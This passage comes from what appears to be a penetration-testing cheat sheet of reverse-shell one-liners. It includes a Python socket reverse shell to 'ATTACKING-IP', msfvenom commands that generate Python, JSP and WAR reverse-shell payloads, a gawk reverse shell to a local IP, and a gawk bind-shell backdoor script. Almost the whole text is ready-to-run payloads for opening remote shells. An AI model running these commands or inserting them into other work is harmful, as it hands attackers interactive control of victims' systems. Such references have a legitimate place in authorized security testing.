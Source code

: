 {% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}


### MSFVenom Python Reverse Shell

MSFVenom can be used to generate a Python reverse shell using the following command: 

{% highlight bash %}
msfvenom -p cmd/unix/reverse_python LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.py
{% endhighlight %}

## JSP Reverse Shell

MSFVenom can be used to generate a JSP reverse shell using the following command: 

{% highlight bash %}
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.jsp
{% endhighlight %}

## WAR Reverse Shell

MSFVenom can be used to generate a WAR reverse shell using the following command: 

{% highlight bash %}
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f war > reverse-shell.war
{% endhighlight %}

## Gawk Reverse Shell

Gawk one liner rev shell by @dmfroberson: 

{% highlight gawk %}
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
{% endhighlight %}

{% highlight gawk %}
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
{% endhighlight %}
